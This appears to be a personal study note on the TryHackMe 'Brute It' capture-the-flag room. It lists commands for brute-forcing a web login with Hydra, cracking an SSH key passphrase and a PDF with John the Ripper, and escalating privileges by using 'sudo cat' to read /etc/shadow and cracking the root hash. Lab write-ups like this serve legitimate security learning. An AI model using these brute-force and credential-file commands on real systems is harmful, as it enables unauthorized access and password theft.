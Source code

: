 
2024-07-28 20:06

Source: #tryhackme #privesc #Boot2root 

Tags:  [[Cryptography]]
#### Hydra brute force

we have a website that has a simple login page with username and password 
we find the username from the source code 
use [[Tags/hydra]] to brute force the password
```sh
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.91.80 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
```
#### cracking rsa 

- after logging in the website we find a [[SSH (22 port)]] `rsa` private key, `wget` it from the website  
- The special John the Ripper tool called **ssh2john.py** which can extract the crackable hash from the [[RSA]] private key. (don't save o/p in a text file)
```
/usr/share/john/ssh2john.py id_rsa  > rsa.hash
```
- then user `rockyou` wordlist with john to crack the pass 
- `chmod` the original `id_rsa` file - `chmod 600 id_rsa`
- use `ssh` to login as john
#### using John

Adding the option `--rules=wordlist` to your [[john]] command line generates multiple passwords from each one. For instance, it appends and prepends single digits, use this if the password isn't cracked by using a wordlist (its like data augmentation)

```sh
john --format=raw-sha256 --rules=wordlist --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

- if a password protected pdf is there use `pdf2john.pl private.pdf > pdf.hash` to convert the pdf to a hash
- further crack the hash 
- in order to open a pdf file we can convert it into text  `pdftotext private.pdf -upw <password>`

#### Priv esc

- `sudo -l` -> can run `cat` with sudo
- go to gtfobins and find exp. for `cat `
- since you can cat files using `sudo` , `cat /etc/shadow` and get a hash of the root pass which you further crack using john 
- Before we use John the Ripper to find out the root’s password we need to put it in a format that john will understand. To do this we will use the unshadow command. 
`/etc/passwd` and `/etc/shadow` files are passwd.txt and shadow.txt respectively 
```sh
unshadow passwd.txt shadow.txt > pass.txt
john --wordlists=../rockyou.txt pass.txt
john --show pass.txt
```
- `sudo cat` the `root/root.txt` and get the flag
### References

[TryHackMe | Brute It](https://tryhackme.com/r/room/bruteit)
[TryHackMe: Brute It - Eric Logan](https://eric.cc/tryhackme-brute-it/)
[TryHackMe | Brute It Walkthrough | Medium](https://enescayvarli.medium.com/tryhackme-bruteit-walkthrough-e93e3f29c233)

Linpeas - [linpeas | grimbins](https://grimbins.github.io/grimbins/linpeas/)